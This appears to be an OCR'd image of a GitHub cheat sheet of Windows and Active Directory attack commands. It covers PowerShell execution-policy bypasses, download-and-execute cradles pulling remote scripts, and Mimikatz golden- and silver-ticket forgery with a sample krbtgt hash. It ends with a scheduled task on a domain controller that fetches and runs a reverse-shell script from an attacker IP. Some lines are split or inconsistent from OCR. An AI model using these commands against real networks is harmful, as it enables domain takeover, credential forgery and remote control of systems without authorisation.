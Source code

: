# Commands

# bypass
Start PowerShell from cmd.exe:

powershell.exe -ep bypass

OR If already running-

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted

$Env:PSExecutionPolicyPreference = 'Bypass'



# cradle
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

# download
(new-object System.Net.Webclient).DownloadFile("https://raw.githubusercontent.com/conma293/mvp/main/1.ps1", "C:\Windows\Temp\1.ps1")

# Tickets

NTLM == RC4

#Golden

Invoke-Mimikatz -Command '"kerberos::golden 
/User:DonaldDuck /domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /krbtgt:731a061e57100b658bc59d71f5176e93
id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

#Silver
SPNs - https://adsecurity.org/?page_id=183

Invoke-Mimikatz -Command '"kerberos::golden 
/domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /target:dc01.ecorp.local /service:HOST 
/rc4:731a061e57100b658bc59d71f5176e93 /user:Administrator /ptt"

schtasks /create /S dc01.ecorp.local
/SC Weekly /RU "NT Authority\SYSTEM" /TN "Updater123" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.3.111:808
0/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S dc01.ecorp.moneycorp.local /TN "Updater123"
